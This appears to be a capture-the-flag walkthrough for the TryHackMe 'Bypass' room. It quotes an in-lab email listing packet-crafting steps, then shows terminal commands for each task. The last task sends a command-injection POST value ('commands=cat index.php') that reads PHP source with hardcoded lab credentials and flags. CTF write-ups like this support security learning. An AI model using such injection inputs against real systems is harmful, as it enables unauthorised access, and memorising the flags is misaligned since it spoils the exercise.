 <code>
https://tryhackme.com/r/room/bypass





### found in /mail
From: steve@cctv.thm
To: mark@cctv.thm
Subject: Important Credentials

Hey Mark,

I have completed all the formalities for securing our CCTV web panel (cctv.thm:443). I have installed Suricata to automatically detect any invalid connection and enabled two-layer protection for the web panel. I will SMS you the passwords but incase if you misplace them, there is no possibility for recovery. 

We can recover the password only if we send some specially crafted packets 	
-	Make a UDP request to the machine with source port number 5000. Once done, you can fetch the flag through /fpassword.php?id=1
-	Make a TCP request to fpassword.php?id=2 with user-agent set as "I am Steve Friend". Once done, you can fetch the flag through /fpassword.php?id=2
-	Send a ping packet to the machine appearing as Mozilla browser (Hint: packet content with user agent set as Mozilla). Once done, you can fetch the flag through /fpassword.php?id=3
-	Attempt to login to the FTP server with content containing the word "user" in it. Once done, you can fetch the flag from /fpassword.php?id=4
-	Send TCP request to flagger.cgi endpoint with a host header containing more than 50 characters. Once done, you can fetch the flag from /fpassword.php?id=5

After receiving all the flags, you can visit the MACHINE IP that will ask you for the password. The first password will be concatenated values of all five flags you have received above.

For the second layer of security, I have enabled a wholly sandboxed login environment with no connection to the database and no possibility of command execution. The username is the computer's hostname, and the password is the same as the previous password. I will SMS you the details as well.


See ya soon

Steve
Dev Ops Engineer

### Task 1
┌──(duke㉿kali)-[~]
└─$ echo "This is my data"  | nc -u -p 5000 10.10.9.81 5000

### Task 2
┌──(duke㉿kali)-[~/Documents/THM_Bypass]
└─$ python flag2.py         

### Task 3
┌──(duke㉿kali)-[~/Documents/THM_Bypass]
└─$ sudo python flag3.py         

### Task 4
┌──(duke㉿kali)-[~/Documents/THM_Bypass]
└─$ python flag4.py         

### Task 5
┌──(duke㉿kali)-[~/Documents/THM_Bypass]
└─$ python flag5.py         

### Task 6

Send POST request
commands=cat index.php
	<?php if(isset($_GET['error'])): ?>
		<div>
			<small class="text-danger text-center">Failed to login, Invalid credentials provided</small>
		</div>
		<?php endif; ?>
	</div>
	</form>
</div>
			<?php

	}
	else{
		
	if(isset($_POST['submit']))
{
	if(isset($_POST['username'],$_POST['password']) && ($_POST['username']=='bypass' && $_POST['password']=='THM{10001}THM{10125}THM{13231}THM{33120}THM{12319}'))
	{
		$_SESSION['logged'] = true;
			header('Location: dashboard.php');
	}
	else
	{
		header('Location: index.php?error');
	}
}

	  exit;
	}
	}
	else{


<\code>


